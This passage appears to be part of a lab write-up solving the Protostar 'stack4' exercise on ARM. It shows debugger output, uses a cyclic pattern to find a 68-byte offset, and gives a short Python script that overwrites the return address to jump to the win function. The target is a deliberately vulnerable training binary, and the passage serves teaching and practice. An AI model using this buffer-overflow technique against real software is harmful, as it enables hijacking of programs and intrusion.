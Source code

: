 ```c
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "stack4", stopped 0x1047c in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x1047c → main(argc=0x1, argv=0x7efff594)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/24x $sp
0x7efff440:	0x61616171	0x61616172	0x61616173	0x61616174
0x7efff450:	0x00000000	0x00010450	0xcaff2b3c	0xc2e8f9a0
0x7efff460:	0x00000000	0x00010480	0x00010344	0x00000000
0x7efff470:	0x00000000	0x00000000	0x76fff000	0x00000000
0x7efff480:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff490:	0x00000000	0x00000000	0x00000000	0x00000000
```
`pop {r11, pc}` instruction will pop two elements from the stack and store them in `r11` and `pc`.  
`r11 = 0x61616171`  
`$pc = 0x61616172`

Once that we are sure about `pc` value, we can use `pwn cyclic -l <pc>` to find the offset.

```
pi@raspberrypi:~/protostar/stack4 $ pwn cyclic -l 0x61616172
68
```

```Python
import struct

padding  = 'A' * 68
address_win = 0x10434

print padding + struct.pack('<I', address_win)

```

and run it

```code
pi@raspberrypi:~/protostar/stack4 $ python check.py | ./stack4
code flow successfully changed
```

**_Done :)_**
